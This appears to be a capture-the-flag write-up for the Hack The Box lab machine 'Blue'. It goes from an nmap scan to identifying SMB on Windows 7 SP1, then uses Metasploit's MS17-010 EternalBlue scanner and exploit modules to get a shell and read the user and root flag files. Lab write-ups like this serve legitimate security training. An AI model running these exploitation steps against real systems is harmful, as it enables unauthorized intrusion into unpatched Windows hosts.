 
![Blue](https://user-images.githubusercontent.com/66635295/171770325-b049fad5-f2ec-4c7b-8f55-b810338df409.png)

**RECON**
---
**Nmap Scan**
<pre>namp –p- -A -T4 10.10.10.40</pre>

-allports -version -Aggressive

Port 139 and 445 shows SMB is running  

![nmap](https://user-images.githubusercontent.com/66635295/171770240-22a413e1-86f5-403d-bf28-67498161e951.png)


**Google-Fu**

<pre>Windows 7 Professional 7601 Service Pack 1</pre>

MS17-010 EternalBlue

![google](https://user-images.githubusercontent.com/66635295/171770443-4a2599f6-984b-4cd3-b6dc-1fc910325fa6.png)

![blue](https://user-images.githubusercontent.com/66635295/171770448-d6573efd-0ab3-45cf-8227-4d8145f1321d.png)

**Metasploit Search**
<pre>msfconsole</pre>
<pre>search eternal blue</pre>

![menu](https://user-images.githubusercontent.com/66635295/171770683-7e20277f-35e4-4ee5-b509-54cb7667f10a.png)

**Auxiliary Scan**

<pre>use 3</pre>
<pre>set host</pre>
<pre>run</pre>
Host is likely Vulnerbale
![bluescan](https://user-images.githubusercontent.com/66635295/171771697-0fd5fdd3-a366-482a-b17a-a79db6aec8c2.png)

**ENUMERATION**
---
Eternal Blue Exploit
<pre>use 0</pre>
<pre>set hosts</pre>
<pre>run</pre>
Success 
![win](https://user-images.githubusercontent.com/66635295/171775665-bdea3385-c399-4edf-95da-e0d69317953c.png)

**PRIVILEGE ESCALATION**
---
**Directories**
<pre>shell</pre>
<pre>cd C:/</pre>
<pre>cd Users</pre>
<pre>dir</pre>
![haris](https://user-images.githubusercontent.com/66635295/171775908-10c655f3-e3d4-4331-82bb-fec08256fcff.png)

**User Flag**
<pre>cd haris</pre>
<pre>cd Desktop</pre>
<pre>dir</pre>
<pre>type user.txt</pre>

**Root Flag**
<pre>cd C:/Users/Administrator</pre>
<pre>cd Desktop</pre>
<pre>dir</pre>
<pre>type root.txt</pre>



